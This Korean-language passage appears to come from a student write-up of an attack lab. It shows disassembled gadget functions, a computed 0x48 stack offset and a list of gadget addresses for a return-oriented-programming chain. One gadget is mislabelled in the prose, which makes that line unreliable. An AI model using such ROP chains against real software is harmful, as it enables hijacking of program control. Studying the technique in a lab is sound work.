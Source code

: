이제 주소 조정값만 정하면 된다.
첫 번째 줄이 실행될때의 %rsp로부터 cookie가 떨어진 위치는 9칸이므로, 9 \* 8 = 72bytes다.
이를 16진법으로 바꾸면 0x48이므로 주소 조정값은 0x48이 된다.

다음으로 각 garget의 주소를 알아보자.
앞서 찾은 gadget 중 하나씩 찾은 것으로 이 외에도 다른 답이 여러 개 있다.
gadget의 주소는 mov %rax, %rdi만 대표로 계산하고 나머지는 생략하겠다.

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq
```

gadget의 위치는 주소로부터 3칸 떨어져 있으므로, `movq %rax, %rdi` gadget 주소는 0x401a03 + 3 = 0x401a06이다.
나머지 주소는 아래로 구하면 된다.

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq
```

-   mov %rsp, %rax: 0x401a03 + 3 = 0x401a06
-   mov %rax, %rdi: 0x4019a0 + 2 = 0x4019a2
-   pop %rax: 0x4019a7 + 4 = 0x4019ab
-   movl %eax, %edx: 0x4019db + 2 = 0x4019dd
-   movl %edx, %ecx: 0x401a68 + 1 = 0x401a69
-   movl %ecx, %esi: 0x401a11 + 2 = 0x401a13
-   lea (%rdi, %rsi, 1), %rax: 0x4019d6
-   mov %rax, %rdi: 0x4019a0 + 2 = 0x4019a2
